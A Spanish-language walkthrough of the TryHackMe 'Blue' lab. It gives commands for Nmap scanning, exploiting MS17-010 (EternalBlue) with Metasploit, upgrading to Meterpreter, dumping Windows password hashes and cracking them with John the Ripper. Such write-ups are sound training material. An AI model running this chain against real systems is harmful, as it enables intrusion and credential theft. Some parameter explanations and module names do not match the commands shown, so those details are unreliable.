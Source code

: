 # Guía de Explotación - TryHackMe Blue

## 1. Reconocimiento

### Escaneo inicial con Nmap

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y otra información relevante:

```bash
nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA
```

#### Explicación de los parámetros:
- `-p-`  -> Escanea todos los puertos (1-65535).
- `--open`  -> Muestra solo los puertos abiertos.
- `-T4`  -> Define la velocidad del escaneo (agresivo).
- `-v`  -> Modo verboso, muestra resultados en tiempo real.
- `-n`  -> No realiza resolución de DNS.

![Escaneo Nmap](./assets/image-2.png)

### Escaneo específico de servicios detectados

Ahora realizamos un escaneo más detallado en los puertos abiertos para identificar los servicios y sus versiones:

```bash
nmap -sC -sV -p PUERTOS_ABIERTOS IP_MAQUINA_ATACADA
```

#### Explicación de los parámetros:
- `-sC` -> Ejecuta scripts de enumeración básicos.
- `-sV` -> Obtiene versiones de los servicios en los puertos abiertos.
- `-p`  -> Define los puertos específicos a analizar.

### Detección de vulnerabilidades en SMB

Uno de los hallazgos clave es el puerto **445**, utilizado por el protocolo **SMB (Server Message Block)**. Para verificar si el sistema es vulnerable a **MS17-010 (EternalBlue)**, utilizamos el siguiente comando:

```bash
nmap --script="smb-vuln*" -p 445 IP_MAQUINA_ATACADA
```

![Escaneo SMB](./assets/image-1.png)

Confirmamos que la máquina es vulnerable a **MS17-010**.

---

## 2. Explotación

### Uso de Metasploit para explotar MS17-010

Abrimos **Metasploit** ejecutando:

```bash
msfconsole
```

Buscamos el exploit para **MS17-010**:

```bash
search MS17-010
```

![Búsqueda Exploit](./assets/image-3.png)

Seleccionamos el exploit deseado:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Configuramos los parámetros necesarios:

```bash
set LHOST NUESTRA_IP
set RHOST IP_VICTIMA
show options
```

![Configuración Exploit](./assets/image-4.png)

Ejecutamos el ataque:

```bash
run
```

![Ejecución Exploit](./assets/image-6.png)

---

## 3. Escalada a Meterpreter

Para obtener un **Meterpreter**, abandonamos la sesión actual:

```bash
Ctrl + Z
```

Buscamos un módulo de migración a **Meterpreter**:

```bash
search shell_to_meterpreter
```

![Migración Meterpreter](./assets/image-7.png)

Seleccionamos y configuramos el módulo:

```bash
use exploit/multi/handler
set SESSION 1
show options
run
```

![Ejecución Meterpreter](./assets/image-10.png)

Listamos sesiones activas y volvemos a nuestra sesión:

```bash
sessions 1
```

Verificamos privilegios:

```bash
whoami
```

Somos **NT AUTHORITY\SYSTEM**, el usuario con mayores privilegios.

---

## 4. Extracción de Hashes y Cracking de Contraseñas

Listamos los hashes de contraseñas de los usuarios del sistema:

```bash
hashdump
```

![Hashdump](./assets/image-12.png)

Para descifrar la contraseña del usuario "Jon", utilizamos **John The Ripper**:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Cracking de Hash](./assets/image-13.png)

---

## 5. Obtención de Flags

La plataforma indica que existen **tres flags**, localizadas en directorios clave de Windows.

### Flag 1: Raíz del sistema (`C:\`)

```bash
cd C:\
dir
type flag1.txt
```

![Flag 1](./assets/image-14.png)

### Flag 2: Ubicación de archivos de seguridad (`C:\Windows\System32\Config`)

```bash
cd C:\Windows\System32\Config
dir
type flag2.txt
```

![Flag 2](./assets/image-15.png)

### Flag 3: Archivos del usuario administrador (`C:\Users\Jon\Documents`)

```bash
cd C:\Users\Jon\Documents
dir
type flag3.txt
```

![Flag 3](./assets/image-16.png)

---

¡Máquina comprometida con éxito!